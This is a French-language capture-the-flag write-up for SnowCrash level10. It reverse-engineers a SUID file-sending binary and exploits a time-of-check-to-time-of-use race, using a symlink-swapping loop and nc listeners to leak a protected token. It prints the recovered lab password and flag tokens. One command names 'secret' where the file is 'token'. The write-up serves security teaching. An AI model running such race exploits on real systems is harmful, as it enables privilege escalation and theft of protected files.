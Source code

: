 # LEVEL 10

### Reconnaissance

En se connectant au level10, on a un binaire et un fichier token ou on a pas les droits de lecture dessus:

```
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
level10@SnowCrash:~$ cat token 
cat: token: Permission denied
```

En lancant le binaire, on voit qu'il attend un fichier et un client a qui se connecter:

```
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it
```

On peux téléchargé le binaire pour le reverse, sa nous permettra dans savoir plus dans son fonctionnement.

On voit 2 choses interessantes:

- Le port utilisé pour la connection (6969)
```
0x08048756      b87b8a0408     mov eax, str.Connecting_to__s:6969_.. ; .//level10.c:31 ; 0x8048a7b ; "Connecting to %s:6969 .. "
```
- L'utilisation de la fonction access
```
0x08048749      e892feffff     call sym.imp.access         ; int access(const char *path, int mode)
```

Essayons de faire fonctionné ce binaire

```
level10@SnowCrash:~$ echo 'testing' > /tmp/test1
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
level10@SnowCrash:~$ nc -l 6969 > /dev/pts/0 &
[1] 7697
level10@SnowCrash:~$ ./level10 /tmp/test1 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. testing
wrote file!
[1]+  Done                    nc -l 6969 > /dev/pts/0
```
Sa marche, maintenant intéressons nous a comment l'exploité ?

La fonction qui nous interesse (access) nous permet de faire une attaque de type : **Time-of-check to time-of-use (TOCTOU)**
--> https://samsclass.info/127/proj/E10.htm

Cette attaque joue sur le temps entre le moment ou le programme check l'acces (avec la fonction access) et le moment ou il ouvre le fichier:

```
	access (/tmp/flip) --> a ce moment la, il est link avec le fichier /tmp/public = on a l'access
	open(/tmp/flip...) --> a ce moment, il est link avec le fichier token, on a théoriquement pas l'acces mais le binaire dispose des droits SUID.
```

Ok, maintenant qu'on a compris comment sa fonctionne on passe a la pratique !

### Exploitation


On ouvre 2 connections ssh:
	- la première pour nos commande
	- la deuxième pour recevoir les infos avec nc.
	
- **1er terminal**
```
	$ echo "public" > /tmp/public		# creation fichier ou on a des droits (normal, on le creer)
	$ ln -sf /tmp/public /tmp/flip		# creation d'un lien symbolique
	Si on lance notre binaire avec /tmp/public ou /tmp/flip, on aura exactement la meme chose.
	
	while true; do ln -sf $(pwd)/secret /tmp/flip; ln -sf /tmp/public /tmp/flip; done &
	$ for i in {1..300}; do ./level10 /tmp/flip 127.0.0.1; done
```

- **2eme terminal**
```
	$ for i in {1..300}; do nc -l 6969; done
	[...]
	public
	.*( )*.
	.*( )*.
	public
	.*( )*.
	woupa2yuojeeaaed06riuj63c
	.*( )*.
	public
	.*( )*.
	public
	[...]
```

Et voila, le mot de passe pour l'user flag10 est woupa2yuojeeaaed06riuj63c

*ps : le mot de passe fonctionne pour l'user flag11*
	
```
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
level10@SnowCrash:~$ su flag11
Password: 
Don't forget to launch getflag !
flag11@SnowCrash:~$ getflag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
